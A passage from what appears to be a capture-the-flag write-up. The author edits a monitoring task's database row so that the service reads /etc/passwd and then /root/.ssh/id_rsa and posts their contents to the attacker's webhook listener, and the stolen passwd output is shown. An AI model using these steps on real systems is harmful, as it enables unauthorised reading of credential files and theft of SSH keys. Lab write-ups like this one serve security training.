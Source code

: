 **(3).** [Update](https://devhints.io/mysql) the entry and change monitoredUrl to wanted file (`/etc/passwd`):

```sql
mysql> update tasks set monitoredUrl = "/etc/passwd";
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+--------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+--------------+-------------+---------------------+---------------------+
| 7ec7e20c-3011-4143-8aef-2e6057086327 | http://10.10.14.20:8888/ |         0 | /etc/passwd  | */1 * * * * | 2022-08-24 11:49:26 | 2022-08-24 11:49:26 |
+--------------------------------------+--------------------------+-----------+--------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```

**(4).** Wait for the webhook callback and reap the rewards.

```bash
➜  health python3 webserv.py 8888
[... snip ...]
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"\/etc\/passwd","health":"up","body":"root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nlxd:x:105:65534::\/var\/lib\/lxd\/:\/bin\/false\nuuidd:x:106:110::\/run\/uuidd:\/usr\/sbin\/nologin\ndnsmasq:x:107:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nlandscape:x:108:112::\/var\/lib\/landscape:\/usr\/sbin\/nologin\npollinate:x:109:1::\/var\/cache\/pollinate:\/bin\/false\nsshd:x:110:65534::\/run\/sshd:\/usr\/sbin\/nologin\nsusanne:x:1000:1000:susanne:\/home\/susanne:\/bin\/bash\ngogs:x:1001:1001::\/home\/gogs:\/bin\/bash\nmysql:x:111:114:MySQL Server,,,:\/nonexistent:\/bin\/false\n"}
```


### Step 3
The PoC was successful, change file and for persistance purposes grab `id_rsa`.
```bash
mysql> update tasks set monitoredUrl = "/root/.ssh/id_rsa";
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```
